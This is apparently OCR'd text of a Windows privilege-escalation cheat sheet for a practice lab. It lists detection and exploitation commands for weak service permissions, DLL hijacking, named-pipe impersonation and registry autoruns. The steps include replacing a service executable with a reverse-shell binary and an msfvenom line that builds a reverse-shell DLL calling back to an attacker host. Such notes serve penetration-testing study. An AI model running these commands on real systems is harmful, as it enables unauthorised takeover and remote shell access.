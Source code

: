 		- Insecure Service Executables

			- Detection

				- > .\winPEAS.exe quiet servicesinfo
				- Found  executable writable by everyone?

			- Exploitation

				- > .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
				- > copy "C:\Program Files\File Permissions Service\filepermservice.exe" C:\Temp 
				- > copy /Y C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe"
				- > net start filepermsvc

		- DLL Hijacking

			- Detection

				- > .\winPEAS.exe quiet servicesinfo
				- > .\accesschk.exe /accepteula -uvqc user $SERVICE_NAME

			- Exploitation

				- > sc qc dllsvc
				- Procmon64.exe 
				- Ctrl+L
				- Add new filter $SERVICE_NAME.exe
				- > net start dllsvc
				- # msfvenom -p windows/x64/shell_reverse_tcp LHOST=$IP LPORT=$PORT -f dll -o hijackme.dll
				- > net stop dllsvc
				- > net start dllsvc

		- Named Pipes &
Token Duplication

			- Detection

				- Metasploit "getsystem"

					- https://github.com/rapid7/metasploit-payloads/tree/d672097e9989e0b4caecfad08ca9debc8e50bb0c/c/meterpreter/source/extensions/priv

			- Exploitation

				- Named Pipe Impersonation (In Memory/Admin)
				- Named Pipe Impersonation (Dropper/Admin)
				- Token Duplication (In Memory/Admin)

	- Registry

		- Autorun

			- Detection

				- > .\winPEAS.exe quiet applicationsinfo
				- > reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
				- > .\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"

			- Exploitation
